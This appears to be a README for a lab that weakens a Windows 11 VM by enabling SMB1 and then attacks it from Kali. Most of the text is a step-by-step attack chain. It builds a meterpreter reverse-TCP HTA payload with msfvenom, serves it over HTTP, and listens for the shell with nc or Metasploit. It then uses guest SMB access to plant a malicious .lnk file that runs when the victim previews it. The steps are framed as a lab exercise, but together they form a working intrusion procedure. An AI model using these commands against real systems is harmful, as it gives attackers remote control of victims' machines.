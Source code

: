 # Steps:

Simulate SMB vulnerability in Win11 VM:
- Enable SMB1:
    - From the start menu, search for `Turn Windows features on or off`.
    - Select `SMB 1.0 ...` then select `Ok`, the installation will start, then the VM will be restarted.
- In admin PowerShell, enable scripting `Set-ExecutionPolicy RemoteSigned -Scope LocalMachine`.
- Download `smb1-vulnerability.ps1` and run it in the admin PowerShell window.

Steps in Kali:
- Create a shortcut file:
    - Run `lnk-creator.sh`, make sure the *.lnk file is in the Desktop.
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.10 LPORT=4444 -f hta-psh > exploit.hta`.
    - Run `python3 -m http.server 80` and leave it running.
    - Open new terminal and use `nc -lvnp 4444`, or use Metasploit:
        - `use exploit/multi/handler`.
        - `set payload windows/meterpreter/reverse_tcp`.
        - `set LHOST 192.168.8.10`.
        - `set LPORT 4444`.
        - `run`.
    - Open new terminal smb client
        - Use `smbclient //192.168.8.40/Sharing -U guest`.
        - There is no password for guest user, so just hit `Enter` key for password.
        - Use `put exploit.lnk`, to upload the created link file to Win11.
        - In Win11, open `Sharing` folder and click on `exploit.lnk` to be previewed, this will activate the malware.

